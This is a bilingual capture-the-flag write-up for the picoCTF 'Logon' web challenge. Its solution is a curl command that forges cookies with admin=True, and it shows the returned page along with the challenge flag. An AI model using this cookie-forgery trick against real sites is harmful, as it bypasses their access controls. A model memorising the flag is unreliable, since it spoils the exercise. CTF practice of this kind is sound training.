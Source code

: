 ## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

La fábrica oculta cosas a todos sus usuarios. ¿Puedes iniciar sesión como Joe y encontrar lo que han estado mirando? `https://jupiter.challenges.picoctf.org/problem/13594/` ([enlace](https://jupiter.challenges.picoctf.org/problem/13594/)) o http://jupiter.challenges. picoctf.org:13594
### Pistas
1. Hmm it doesn't seem to check anyone's password, except for Joe's?
### Solución
1. Hay que encontrar y verificar la cookie a buscar, con curl en Linux:
```
hellbroone-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie:username=caca;password=tumama;admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>
```
### Notas Adicionales
Para este reto tuvimos que usar el comando curl, que es muy útil para verificar URLs y transferir archivos en **Linux**.
Con esto, simplemente hay que poner la cookie como encabezado con *-H*.
### Referencias
https://play.picoctf.org/practice/challenge/46
https://jupiter.challenges.picoctf.org/problem/13594/
